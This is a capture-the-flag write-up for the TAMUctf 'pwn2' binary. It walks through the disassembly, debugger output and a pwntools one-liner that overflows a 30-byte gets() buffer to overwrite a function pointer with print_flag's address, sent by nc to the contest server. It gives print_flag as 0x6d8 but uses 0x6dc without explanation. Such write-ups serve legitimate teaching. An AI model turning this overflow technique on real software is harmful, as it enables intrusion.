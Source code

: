# Pwn2
Pwn

## Challenge 

nc pwn.tamuctf.com 4322

Difficulty: easy

[pwn2](pwn2)


## Solution

#### Understand the program

Upon disassembling the binary, we notice that it checks for a 'one' string

    ; Variables:
    ;    arg_0: int, 8
    ;    var_4: -4
    ;    var_C: -12
    ;    var_2A: -42

    // arg0 is the result from gets() and is passed from the main()
    int select_func(int arg0) {
        sub_550();              // strcpy arg0 into local buffer
        if (sub_4d0() == 0x0) { // strcmp if buffer == 'one'
            var_C = one;        // run function one
        }
        eax = (var_C)();
        return eax;
    }

Checking on the program, it kinda does as we guessed.

    # nc pwn.tamuctf.com 4322
    Which function would you like to call?
    one
    This is function one!

Now, if we inspect the binary functions, we want to return to a function called `print_flag()` which is located at `0x6d8`

    (gdb) info add print_flag
    Symbol "print_flag" is at 0x6d8 in a file compiled without debugging.

#### Finding Address

This time we are given a binary with PIE enabled. 

    # pwn checksec ./pwn2
    [*] '/FILES/pwn2'
        Arch:     i386-32-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled


> NX is enabled means stack is not executable. PIE means position independent executable, This means that the binary instructions itself is loaded arbitrarily in the memory. So we can't have shellcode and normal ROP over the binary.
RELRO refers to the writability of the GOT section

This means we do not have an address that can be retrieved from the static binary.

---

Even though PIE is enabled, it is noticed that everytime it runns, the memory address is fixed.

There is a mapping for the start address of the functions at `0x56555000`

    (gdb) info proc mappings
    process 59831
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x56555000 0x56556000     0x1000        0x0 /FILES/pwn2
        0x56556000 0x56557000     0x1000        0x0 /FILES/pwn2
        0x56557000 0x56558000     0x1000     0x1000 /FILES/pwn2
        0x56558000 0x5657a000    0x22000        0x0 [heap]

So we can simply calculate the address of `print_flag()`

    print_flag() = 0x6dc + 0x56555000

In order to craft the payload, we need to know the char counts to fill the buffer. Refer back to source code

    ; Variables:
    ;    arg_0: int, 8
    ;    var_4: -4
    ;    var_C: -12
    ;    var_2A: -42

    // arg0 is the result from gets() and is passed from the main()
    int select_func(int arg0) {
        sub_550();              // strcpy arg0 into local buffer of var_2A
        if (sub_4d0() == 0x0) { // strcmp if buffer == 'one'
            var_C = one;        // run function one
        }
        eax = (var_C)();
        return eax;
    }

> We notice that the address of `var_C` is being executed. 

> `var_C` is located directly after `var_2A` which is the input buffer.

> The input buffer is `(-12) - (-42) = 30` in length.

Final payload

    # python -c "from pwn import *; print cyclic(30) + p32(0x6dc + 0x56555000)" | nc pwn.tamuctf.com 4322
    Which function would you like to call?
    This function is still under development.
    gigem{4ll_17_74k35_15_0n3}

## Flag

    gigem{4ll_17_74k35_15_0n3}


Other References:
https://ocw.cs.pub.ro/courses/cns/labs/lab-10
https://github.com/ByteBandits/writeups/tree/master/hack.lu-ctf-2015/exploiting/Stackstuff/sudhackar
https://dilsec.com/2017/07/27/google-ctf-2017-pwnables-wiki-writeup/
https://toh.necst.it/hack.lu/2015/exploitable/StackStuff/

